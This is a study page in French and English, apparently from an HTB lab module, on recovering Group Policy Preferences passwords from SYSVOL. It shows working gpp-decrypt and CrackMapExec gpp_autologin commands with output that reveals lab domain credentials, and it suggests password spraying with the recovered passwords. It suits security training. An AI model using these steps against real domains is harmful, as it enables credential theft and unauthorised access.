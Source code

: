 # Group Policy Preferences (GPP) Passwords

### <mark style="color:blue;">Group Policy Preferences (GPP) Passwords</mark>

Lorsqu'une nouvelle **GPP** (_Group Policy Preference_) est créée, un fichier **.xml** est généré dans le partage **SYSVOL**, qui est également mis en cache localement sur les postes de travail auxquels la stratégie de groupe s'applique. Ces fichiers peuvent inclure ceux utilisés pour :

* Mapper des lecteurs (**drives.xml**)
* Créer des utilisateurs locaux
* Créer des fichiers de configuration d'imprimantes (**printers.xml**)
* Créer et mettre à jour des services (**services.xml**)
* Créer des tâches planifiées (**scheduledtasks.xml**)
* Modifier les mots de passe administrateurs locaux

Ces fichiers peuvent contenir une gamme de données de configuration et des mots de passe définis. La valeur de l’attribut **cpassword** est chiffrée en **AES-256 bits**, mais Microsoft a publié la **clé privée AES** sur **MSDN**, ce qui permet de déchiffrer le mot de passe.

Tout **utilisateur du domaine** peut lire ces fichiers car ils sont stockés sur le partage **SYSVOL**, et tous les utilisateurs authentifiés du domaine ont, par défaut, un accès en lecture à ce partage du **contrôleur de domaine**.

Ce problème a été corrigé en **2014** avec la mise à jour **MS14-025** (_Vulnerability in GPP could allow elevation of privilege_), pour empêcher les administrateurs de définir des mots de passe via **GPP**. Cependant, le correctif **ne supprime pas** les fichiers **Groups.xml** contenant des mots de passe déjà stockés dans SYSVOL.\
Si vous supprimez la stratégie GPP au lieu de simplement la **délier de l’OU**, la copie mise en cache sur l’ordinateur local **reste présente**.

**Viewing Groups.xml**

<figure><img src="../../../.gitbook/assets/GPP.webp" alt=""><figcaption></figcaption></figure>

If you retrieve the cpassword value more manually, the `gpp-decrypt` utility can be used to decrypt the password as follows:

<mark style="color:green;">**Decrypting the Password with gpp-decrypt**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ gpp-decrypt VPe/o9YRyz2cksnYRbNeQj35w9KxQ5ttbvtRaAVqxaE

Password1
```

GPP passwords can be located by searching or manually browsing the SYSVOL share or using tools such as [Get-GPPPassword.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1)

the GPP Metasploit Post Module, and other Python/Ruby scripts which will locate the GPP and return the decrypted cpassword value.&#x20;

CrackMapExec also has two modules for locating and retrieving GPP passwords. One quick tip to consider during engagements: Often, GPP passwords are defined for legacy accounts, and you may therefore retrieve and decrypt the password for a locked or deleted account. However, it is worth attempting to password spray internally with this password (especially if it is unique). Password re-use is widespread, and the GPP password combined with password spraying could result in further access.

<mark style="color:green;">**Locating & Retrieving GPP Passwords with CrackMapExec**</mark>

{% code overflow="wrap" fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ crackmapexec smb -L | grep gpp

[*] gpp_autologin             Searches the domain controller for registry.xml to find autologon information and returns the username and password.
[*] gpp_password              Retrieves the plaintext password and other information for accounts pushed through Group Policy Preferences.
```
{% endcode %}

Il est également possible de trouver des mots de passe dans des fichiers tels que **Registry.xml** lorsque l’**autologon** est configuré via **Group Policy**.

Cela peut être mis en place pour diverses raisons afin qu'une machine se connecte automatiquement au démarrage.

Si cette configuration est définie via **Group Policy** et non localement sur l’hôte, alors **n’importe quel utilisateur du domaine peut récupérer les identifiants** stockés dans le fichier **Registry.xml** créé à cet effet.

Ceci est un problème distinct des mots de passe stockés dans **GPP** (Group Policy Preferences), car **Microsoft n’a pris aucune mesure pour empêcher le stockage de ces identifiants en clair dans le SYSVOL**, ce qui les rend accessibles à **tout utilisateur authentifié** sur le domaine.

Nous pouvons rechercher ces identifiants en utilisant **CrackMapExec** avec le module **gpp\_autologin**, ou en utilisant le script **Get-GPPAutologon.ps1** inclus dans **PowerSploit**.

<mark style="color:green;">**Using CrackMapExec's gpp\_autologin Module**</mark>

{% code overflow="wrap" fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M gpp_autologin

SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\forend:Klmcargo2 
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  [+] Found SYSVOL share
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  [*] Searching for Registry.xml
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  [*] Found INLANEFREIGHT.LOCAL/Policies/{CAEBB51E-92FD-431D-8DBE-F9312DB5617D}/Machine/Preferences/Registry/Registry.xml
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  [+] Found credentials in INLANEFREIGHT.LOCAL/Policies/{CAEBB51E-92FD-431D-8DBE-F9312DB5617D}/Machine/Preferences/Registry/Registry.xml
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  Usernames: ['guarddesk']
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  Domains: ['INLANEFREIGHT.LOCAL']
GPP_AUTO... 172.16.5.5      445    ACADEMY-EA-DC01  Passwords: ['ILFreightguardadmin!'].
```
{% endcode %}
